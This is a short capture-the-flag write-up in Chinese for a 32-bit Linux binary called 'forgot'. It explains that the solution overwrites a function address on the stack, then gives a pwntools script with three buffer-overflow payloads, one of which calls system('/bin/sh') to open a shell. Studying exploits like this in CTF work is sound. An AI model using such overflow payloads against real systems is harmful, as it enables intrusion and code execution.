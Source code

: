 # forgot

此题关键在于：用恶意代码地址覆盖栈中的函数地址。

由于代码逻辑原因，前几个字符不同会造成调用的函数地址不同，因此偏移也不同。

列出三种有代表性的payload。

## writeup

```python
import pwn
  
pwn.context(arch='i386', os='linux')

payload  = b'a@a.' + b'a' * 0x40 + b'\xcc\x86\x04\x08'      
payload2 = b'AAAA' + b'A' * 0x1c + b'\xcc\x86\x04\x08'      

e = pwn.ELF('./forgot')
system_addr = pwn.p32(e.sym['system'])
payload3 = b'/bin/sh\x00' + b'A' * 28 + system_addr

p = pwn.process('./forgot')
#p = pwn.remote('220.249.52.133', 38432)

p.sendlineafter(b'> ', b'PPW')
p.sendlineafter(b'> ', payload)

p.interactive()
```